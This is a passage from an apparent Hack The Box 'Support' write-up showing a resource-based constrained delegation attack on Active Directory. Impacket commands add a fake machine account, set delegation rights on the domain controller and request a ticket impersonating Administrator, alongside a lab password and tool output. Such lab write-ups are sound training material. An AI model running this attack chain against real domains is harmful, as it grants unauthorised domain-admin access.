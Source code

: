 Add a fake computer controlled by me

```bash
┌──(bravosec㉿fsociety)-[~/htb/Support]
└─$ addcomputer.py -computer-name 'Test' -computer-pass Bravosec2023 -dc-host DC -domain-netbios support.htb support.htb/support:'Ironside47pleasure40Watchful'
Impacket v0.12.0.dev1+20230921.20754.9c8f344 - Copyright 2023 Fortra

[*] Successfully added machine account Test$ with password Bravosec2023.
```

Pick the computer `DC` to delegate to, since it have the `Trusted For Delegation` flag set

|CN|SAM Name|DNS Hostname|IPv4 Address|Operating System|Service Pack|OS Version|lastLogon|Flags|Created on|SID|description|
|---|---|---|---|---|---|---|---|---|---|---|---|
|MANAGEMENT|MANAGEMENT$|Management.support.htb|error.NXDOMAIN|Windows 10 Pro||10.0 (19042)|07/26/22 14:41:55|WORKSTATION_ACCOUNT|07/21/22 13:19:20|2601||
|DC|DC$|dc.support.htb|error.NXDOMAIN|Windows Server 2022 Standard||10.0 (20348)|09/27/23 10:11:13|SERVER_TRUST_ACCOUNT, TRUSTED_FOR_DELEGATION|05/28/22 11:03:43|1000||

> **Explaination**
> Machine accounts can edit their own msDS-AllowedToActOnBehalfOfOtherIdentity attribute, hence allowing RBCD attacks on relayed machine accounts authentications. ([Refer](https://www.thehacker.recipes/a-d/movement/kerberos/delegations/rbcd))
{: .prompt-tip }

```bash
┌──(bravosec㉿fsociety)-[~/htb/Support]
└─$ rbcd.py -delegate-from 'Test$' -delegate-to 'DC$' -action 'write' 'support.htb/support:Ironside47pleasure40Watchful'
Impacket v0.12.0.dev1+20230921.20754.9c8f344 - Copyright 2023 Fortra

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] Test$ can now impersonate users on DC$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     Test$        (S-1-5-21-1677581083-3380853377-188903654-5601)
```

Sync time before getting tickets

```bash
┌──(bravosec㉿fsociety)-[~/htb/Support]
└─$ sudo ntpdate support.htb
2023-09-27 22:21:54.299510 (+0800) -7.559281 +/- 0.053444 support.htb 10.129.227.255 s1 no-leap
CLOCK: time stepped by -7.559281
```

Get service ticket to impersonate as Domain Admin

```bash
┌──(bravosec㉿fsociety)-[~/htb/Support]
└─$ getST.py -spn 'cifs/dc.support.htb' -impersonate 'Administrator' 'support.htb/Test$:Bravosec2023'
Impacket v0.12.0.dev1+20230921.20754.9c8f344 - Copyright 2023 Fortra

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in Administrator.ccache
```
